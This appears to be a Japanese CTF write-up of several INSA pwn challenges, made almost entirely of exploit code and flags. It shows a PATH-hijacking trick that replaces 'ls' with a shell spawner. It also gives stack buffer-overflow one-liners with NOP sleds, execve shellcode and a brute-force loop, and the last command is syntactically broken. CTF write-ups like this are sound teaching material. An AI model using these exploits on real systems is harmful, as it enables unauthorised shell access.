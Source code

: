 ```
INSA{34573R_3995_4r3_s0_NUF!}
```

## [Pwn 75] lsEasy

```c
#include <stdio.h>

void main()
{
	printf("The content of the current folder is : \n");
	system("ls -l");
}
```

というソースが与えられます。ls を差し替えてしまいましょう。

```
$ mkdir /tmp/haifuri
$ cd /tmp/haifuri
$ cat ls.c
#include <stdlib.h>
int main(void) {
  system("/bin/sh");
  return 0;
}
$ gcc ls.c -o ls
$ cd
$ PATH=/tmp/haifuri ./vuln
$ /bin/cat flag
INSA{SySt3m_1s_3v1l_-}
```

```
INSA{SySt3m_1s_3v1l_-}
```

## [Pwn 125] Crazy Minitel

```
./vuln $(python -c "import struct; print 'A' * 268 + struct.pack('<I', 0xbffffa00 + 272) + '\x90' * 0x100 + '\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'")
```

```
INSA{1_l0v3_BuFF3|2_Ov3r}
```

## [Pwn 150] Connected Spoon

```
for i in {1..1000}; do ./vuln $(python -c "import struct; shellcode = '\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'; print '\x90' * (2012 - len(shellcode)) + shellcode + struct.pack('<I', 0xbff97580); done
```
